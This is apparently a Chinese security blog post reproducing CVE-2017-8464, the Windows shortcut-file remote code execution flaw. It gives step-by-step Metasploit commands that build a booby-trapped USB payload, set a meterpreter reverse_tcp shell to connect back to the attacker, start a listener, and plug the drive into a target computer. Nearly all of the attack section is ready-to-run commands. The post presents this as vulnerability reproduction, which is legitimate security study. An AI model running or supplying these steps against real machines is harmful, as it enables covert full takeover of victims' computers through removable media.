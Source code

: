 ```yaml
---
title: CVE-2017-8464(震网三代)漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 网络安全
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26 22:09:00
id: CVE-2017-8464
---
```


## 漏洞介绍

该漏洞的原理同2010年美国和以色列入侵并破坏伊朗核设施的震网行动中所使用的穿透核设施隔离网络的漏洞（CVE-2010-2568）非常类似，「它可以很容易的被黑客利用来攻击基础设施、存放关键资料的核心隔离系统等」。
「当存在漏洞的电脑被插上保存有漏洞文件的U盘时，不需要额外操作，漏洞攻击程序就可以执行并完全控制用户的电脑系统」。

## 使用工具

metasploit framework.

## 步骤一: 制作U盘木马
```
 use exploit/windows/fileformat/cve_2017_8464_lnk_rce
 set PAYLOAD windows/x64/meterpreter/reverse_tcp
 set LHOST [ip victim connects back to]
 exploit
```

## 步骤二: 拷贝木马到U盘
```
cp /root/.msf4/local/* [USB drive path]
```

## 步骤三: 开启监听,等待木马反弹
```
 use exploit/multi/handler
 set PAYLOAD windows/x64/meterpreter/reverse_tcp
 set LHOST [ip victim connects back to]
 exploit
```

## 步骤四: 利用

将U盘插入目标电脑,如果目标开启了外接设备自动播放,木马直接可运行.



> 参考: https://github.com/rapid7/metasploit-framework/pull/8767

<!-- https://blog.csdn.net/darkhq/article/details/79304558 -->